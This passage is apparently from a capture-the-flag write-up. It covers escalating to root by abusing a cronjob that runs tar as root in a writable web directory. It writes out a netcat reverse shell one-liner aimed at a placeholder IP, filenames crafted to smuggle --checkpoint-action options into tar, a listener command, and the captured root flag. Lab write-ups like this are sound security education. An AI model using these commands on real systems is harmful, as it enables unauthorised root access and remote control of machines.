 When tar is run as root and processes filenames controlled by an unprivileged user, it's possible to exploit it using a known `--checkpoint-action `technique to execute arbitrary commands.

### **Here’s the step-by-step exploit process I followed**:

#### Navigate to the writable directory `/var/www/html`.
> I went to the directory from which the cronjob operates:

####  Create a reverse shell payload
 > I wrote a reverse shell script that would connect back to my machine. I replaced `MY_IP` with the IP address of my kali machine

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc MY_IP 4444 >/tmp/f" > shell.sh
```

####  Craft the malicious tar options
> I created two dummy files that tar would interpret as arguments

```bash
touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"
touch "/var/www/html/--checkpoint=1"
```
> These special filenames abuse tar’s command-line argument parsing. When the cronjob runs, tar will hit the checkpoint and execute the shell script as root.

####  Start a listener on my machine

```bash
nc -nvlp 4444
```

#### Wait for the shell
> Within a minute, the cronjob executed the malicious tar command, and I received a root shell on my listener


<br>With root access, grabbing the flag was straightforward:</br>

```console
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt
3f0372db24753accc7179a282cd6a949
# 

```